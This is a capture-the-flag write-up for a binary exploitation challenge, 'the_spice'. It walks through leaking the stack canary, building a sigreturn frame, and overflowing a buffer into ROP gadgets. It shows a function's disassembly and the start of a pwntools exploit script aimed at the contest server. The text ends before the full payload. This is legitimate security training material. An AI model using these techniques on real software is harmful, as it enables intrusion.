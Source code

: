 ## Solution

Using the above interesting observation we can construct an exploit. Let's see the steps:
1. Collect free stack leak for later use.
2. Leak cookie with arbitrary read from ``case 3``.
3. Prepare signal frame and append at the end of the payload.
3. Buffer overflow to jump to ``spice_amount`` and then the syscall gadget. Don't forget to properly write the cookie back!

So the plan sounds all great and nice, but sadly it's not that easy... After starting constructing the payload I realized that ``spice_amount`` has a weird calling convention and it takes values from parameters on the stack (kinda like x86). It took me a few hours to properly debug and realize what it does (especially because Ghidra hates showing me the ACTUAL registers in the disassembly and not some label it made for me). In the end I still don't know exactly what the disassembly does, but I noticed that it takes the value from 8 bytes above on the stack and puts it into RAX. BUT it doesn't pop the parameters on the stack, which means that I somehow have to get rid of the parameters after the call returns, or the chain will be broken. I tried so many other ways of controlling RAX but nothing else seemed to work. So I thought maybe I could find a gadget that is viable and can pop the useless things. I found a ``pop rbp`` that worked nicely. Here's the disassembly for ``spice_amount``:

```asm
00000000004011e6 <spice_amount>:
  4011e6:	55                   	push   rbp
  4011e7:	48 89 e5             	mov    rbp,rsp
  4011ea:	48 83 ec 30          	sub    rsp,0x30
  4011ee:	48 8b 45 10          	mov    rax,QWORD PTR [rbp+0x10]
  4011f2:	48 8b 55 18          	mov    rdx,QWORD PTR [rbp+0x18]
  4011f6:	48 89 45 d8          	mov    QWORD PTR [rbp-0x28],rax
  4011fa:	48 89 55 e0          	mov    QWORD PTR [rbp-0x20],rdx
  4011fe:	48 8b 45 20          	mov    rax,QWORD PTR [rbp+0x20]
  401202:	48 89 45 e8          	mov    QWORD PTR [rbp-0x18],rax
  401206:	64 48 8b 04 25 28 00 	mov    rax,QWORD PTR fs:0x28
  40120d:	00 00 
  40120f:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
  401213:	31 c0                	xor    eax,eax
  401215:	8b 45 d8             	mov    eax,DWORD PTR [rbp-0x28]
  401218:	48 8b 55 f8          	mov    rdx,QWORD PTR [rbp-0x8]
  40121c:	64 48 2b 14 25 28 00 	sub    rdx,QWORD PTR fs:0x28
  401223:	00 00 
  401225:	74 05                	je     40122c <spice_amount+0x46>
  401227:	e8 34 fe ff ff       	call   401060 <__stack_chk_fail@plt>
  40122c:	c9                   	leave  
  40122d:	c3                   	ret    
```

What's especially weird for me was that the function did not pop the arguments off the stack, which needed additional careful bypasses in my exploit. Here is the final exploit script, commented:

```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"


spice_func = p64(0x004011e6)
syscall_gadget = 0x00401274
pop_rbp = 0x004011cd

#target = process("./the_spice")
target = remote("challs.umdctf.io", 31721)

```